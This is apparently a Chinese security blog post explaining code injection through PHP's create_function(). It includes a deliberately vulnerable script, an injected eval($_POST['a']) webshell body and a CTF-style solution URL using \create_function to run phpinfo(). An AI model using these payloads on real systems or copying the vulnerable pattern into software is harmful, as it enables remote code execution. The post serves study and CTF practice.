


+++
title = "create_function()注入"
slug = "create-function-injection"
description = ""
date = "2024-08-10T18:45:05"
lastmod = "2024-08-10T18:45:05"
image = ""
license = ""
categories = ["talk"]
tags = ["姿势", "php"]
+++

# 0x01 前言

对于这个函数,我之前一直是一知半解,基本就是知道一个闭合,然后嵌入恶意代码就啥都不知道了,昨天遇到了一个相关知识点,来彻底搞懂他

# 0x02 内容

## 了解

首先去官方手册看看这个函数



也就是说和`eval`有着异曲同工之妙

我们都知道`eval()`会使内置语句`php`解析,所以我们用`;`等闭合内部语句,然后代码执行,那么现在来看看这个

## 实验

首先最基本的用法创建匿名函数

```php
create_function('$name','echo $name."wi"')
```

等价

```php
function fT($fname) {
  echo $fname."wi";
}
```

那么这样一看就很明白了

随便写个代码

```php
<?php
$id=$_GET['id'];
$str2='echo  $a'.'test'.$id.";";
echo $str2;
echo "<br/>";
echo "==============================";
echo "<br/>";
$f1 = create_function('$a',$str2);
?>
```

起一个环境



此时所创建的函数应该为

```php
function fT($a) {
	echo  $a.'test'.$id.;
}
变为
function fT($a){
	echo $a.'test';}eval($_POST['a']);/*;
}
```

那么后续代码都会被注释,且我们也成功注入

## 例题

一道很简单的题目(P神出的)

```
<?php
$action = $_GET['action'] ?? '';
$arg = $_GET['arg'] ?? '';

if(preg_match('/^[a-z0-9_]*$/isD', $action)) {
    show_source(__FILE__);
} else {
    $action('', $arg);
}
```

这里我们使用`\`来绕过

> *php里默认命名空间是\，所有原生函数和类都在这个命名空间中。普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径；而如果写\function_name() 这样调用函数，则其实是写了一个绝对路径。如果你在其他namespace里调用系统类，就必须写绝对路径这种写法。*

```
url/?action=\create_function&arg=;}phpinfo();/*
```

成功注入

# 0x03 小结

虽然只是一个小点子,但是感觉还是非常不错的学了点东西

